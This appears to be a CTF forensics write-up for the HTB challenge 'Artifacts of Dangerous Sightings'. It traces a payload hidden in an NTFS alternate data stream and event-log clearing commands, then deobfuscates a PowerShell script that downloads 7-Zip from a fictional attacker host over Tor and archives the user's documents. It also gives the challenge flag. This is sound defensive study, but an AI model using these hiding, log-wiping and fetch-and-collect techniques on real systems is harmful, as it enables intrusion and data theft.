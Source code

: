 ```yaml
---
layout: post
title: "HTB Cyber Apocalypse CTF 2023- Artifacts of Dangerous Sightings [Forensics]"
categories: ctf
tags: fore blast_o mz4b
date: 2023-03-24 10:00:00 +0100
author: blast_o, mz4b
---
```


# Artifacts of Dangerous Sightings - Difficulty: medium

### `Pandora has been using her computer to uncover the secrets of the elusive relic. She has been relentlessly scouring through all the reports of its sightings. However, upon returning from a quick coffee break, her heart races as she notices the Windows Event Viewer tab open on the Security log. This is so strange! Immediately taking control of the situation she pulls out the network cable, takes a snapshot of her machine and shuts it down. She is determined to uncover who could be trying to sabotage her research, and the only way to do that is by diving deep down and following all traces ...`

<br>
<br>

We are given the following file `2023-03-09T132449_PANDORA.vhdx`


By analyzing the available evidences, we found the following interesting file:

`C\Users\Pandora\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
```powershell
type finpayload > C:\Windows\Tasks\ActiveSyncProvider.dll:hidden.ps1
exit
Get-WinEvent
Get-EventLog -List
wevtutil.exe cl "Windows PowerShell" 
wevtutil.exe cl Microsoft-Windows-PowerShell/Operational
Remove-EventLog -LogName "Windows PowerShell"
Remove-EventLog -LogName Microsoft-Windows-PowerShell/Operational
Remove-EventLog
```


The command `type finpayload > C:\Windows\Tasks\ActiveSyncProvider.dll:hidden.ps1` is used to redirect the output of the `type finpayload"` command to the file `hidden.ps1` inside the file `ActiveSyncProvider.dll` located in the `C:\Windows\Tasks` folder.

The contents of `finpayload` are written to  "hidden.ps1" that is hidden inside the `ActiveSyncProvider.dll` file, as an **Alternate Data Stream**. Alternate Data Streams (ADS) are a file attribute only found on the NTFS file system.

By using the `Get-Item` command in PowerShell we can check all the data streams of the `ActiveSyncProvider.dll` file

``` powershell
Get-Item .\ActiveSyncProvider.dll -stream *

PSPath        : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll::$DATA                PSParentPath  : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings                                              PSChildName   : ActiveSyncProvider.dll::$DATA                                                                                                               PSDrive       : D                                                                                                                                           PSProvider    : Microsoft.PowerShell.Core\FileSystem                                                                                                        PSIsContainer : False                                                                                                                                       FileName      : D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll                                                             Stream        : :$DATA                                                                                                                                      Length        : 1707520  

PSPath        : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll:hidden.ps1            PSParentPath  : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings                                              PSChildName   : ActiveSyncProvider.dll:hidden.ps1                                                                                                           PSDrive       : D                                                                                                                                           PSProvider    : Microsoft.PowerShell.Core\FileSystem                                                                                                        PSIsContainer : False                                                                                                                                       FileName      : D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll                                                             Stream        : hidden.ps1                                                                                                                                  Length        : 175838    

```

We can now see what is inside this ADS:
``` powershell
Get-Content .\ActiveSyncProvider.dll -stream hidden.ps1

powerShell.exe -WindowStyle hiddeN -ExecuTionPolicy ByPasS -enc JAB7AFsAfgBAAH0AIAA9ACAAJAAoACkAOwAgACQAewAhACEAQAAhACEAXQB9ACAAPQAgACsAKwAkAHsAWwB+AEAAfQA7ACAAJAB7AFsAWwAhAH0AIAA9ACAALQAtACQAewBbAH4AQAB9ACAAKwAgACQAewAhACEAQAAhACEAXQB9ACAAKwAgACQAewAhACEAQAAhACEAXQB9ADsAIAAkAHsAfgB+AH4AXQB9ACAAPQAgACQAewBbAFsAIQB9ACAAKwAgACQAewAhACEAQAAhACEAXQB9ADsAIAAkAHsAWwAhACEAWwAhAH0AIAA9ACAAJAB7AFsAWwAhAH0AIAArACAAJAB7AFsAWwAhAH0AOwAgACQAewAoAH4AKAAhAH0AIAA9ACAAJAB7AH4AfgB...

```

Let's decode the b64 string found:
```
${[~@} = $(); ${!!@!!]} = ++${[~@}; ${[[!} = --${[~@} + ${!!@!!]} + ${!!@!!]}; ${~~~]} = ${[[!} + ${!!@!!]}; ${[!![!} = ${[[!} + ${[[!}; ${(~(!} = ${~~~]} + ${[[!}; ${!~!))} = ${[!![!} + ${[[!}; ${((!} = ${!!@!!]} + ${[!![!} + ${[[!}; ${=!!@!!}  = ${~~~]} - ${!!@!!]} + ${!~!))}; ${!=} =  ${((!} - ${~~~]} + ${!~!))} - ${!!@!!]}; ${=@!~!} = "".("$(@{})"[14]+"$(@{})"[16]+"$(@{})"[21]+"$(@{})"[27]+"$?"[1]+"$(@{})"[3]); ${=@!~!} = "$(@{})"[14]+"$?"[3]+"${=@!~!}"[27]; ${@!=} = "["+"$(@{})"[7]+"$(@{})"[22]+"$(@{})"[20]+"$?"[1]+"]";
"${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${ ...
```

This is obfuscated Powershell code, we modify it to be able to execute it safely and the following command is what is finally executed:

```
[Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]43 + [Char]32 + [Char]32 + [Char]46 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + ... | iex
```

Finally, we can decode that output with a simple pytohn script and get the flag:

```python
with open('chars.txt', 'r') as file:
    input_str = file.read()
output_str = ''
for char in input_str.split(' + '):
    char = char.strip('[Char]')
    output_str += chr(int(char))

print(output_str)
```
```powershell
### .     .       .  .   . .   .   . .    +  .
###   .     .  :     .    .. :. .___---------___.
###        .  .   .    .  :.:. _".^ .^ ^.  '.. :"-_. .
###     .  :       .  .  .:../:            . .^  :.:\.
###         .   . :: +. :.:/: .   .    .        . . .:\
###  .  :    .     . _ :::/:                         .:\
###   .. . .   . - : :.:./.                           .:\
###  .   .     : . : .:.|. ######               #######::|
###   :.. .  :-  : .:  ::|.#######             ########:|
###  .  .  .  ..  .  .. :\ ########           ######## :/
###   .        .+ :: : -.:\ ########         ########.:/
###     .  .+   . . . . :.:\. #######       #######..:/
###       :: . . . . ::.:..:.\                   ..:/
###    .   .   .  .. :  -::::.\.       | |       .:/
###       .  :  .  .  .-:.":.::.\               .:/
###  .      -.   . . . .: .:::.:.\            .:/
### .   .   .  :      : ....::_:..:\   ___   :/
###    .   .  .   .:. .. .  .: :.:.:\       :/
###      +   .   .   : . ::. :.:. .:.|\  .:/|
### SCRIPT TO DELAY HUMAN RESEARCH ON RELIC RECLAMATION
### STAY QUIET - HACK THE HUMANS - STEAL THEIR SECRETS - FIND THE RELIC
### GO ALLIENS ALLIANCE !!!
function makePass
{
    $alph=@();
    65..90|foreach-object{$alph+=[char]$_};
    $num=@();
    48..57|foreach-object{$num+=[char]$_};

    $res = $num + $alph | Sort-Object {Get-Random};
    $res = $res -join '';
    return $res;
}

function makeFileList
{
    $files = cmd /c where /r $env:USERPROFILE *.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php;
    $List = $files -split '\r';
    return $List;
}

function compress($Pass)
{
    $tmp = $env:TEMP;
    $s = 'https://relic-reclamation-anonymous.alien:1337/prog/';
    $link_7zdll = $s + '7z.dll';
    $link_7zexe = $s + '7z.exe';

    $7zdll = '"'+$tmp+'\7z.dll"';
    $7zexe = '"'+$tmp+'\7z.exe"';
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zdll -o $7zdll;
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zexe -o $7zexe;

    $argExtensions = '*.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php';

    $argOut = 'Desktop\AllYourRelikResearchHahaha_{0}.zip' -f (Get-Random -Minimum 100000 -Maximum 200000).ToString();
    $argPass = '-p' + $Pass;

    Start-Process -WindowStyle Hidden -Wait -FilePath $tmp'\7z.exe' -ArgumentList 'a', $argOut, '-r', $argExtensions, $argPass -ErrorAction Stop;
}

$Pass = makePass;
$fileList = @(makeFileList);
$fileResult = makeFileListTable $fileList;
compress $Pass;
$TopSecretCodeToDisableScript = "HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}"
```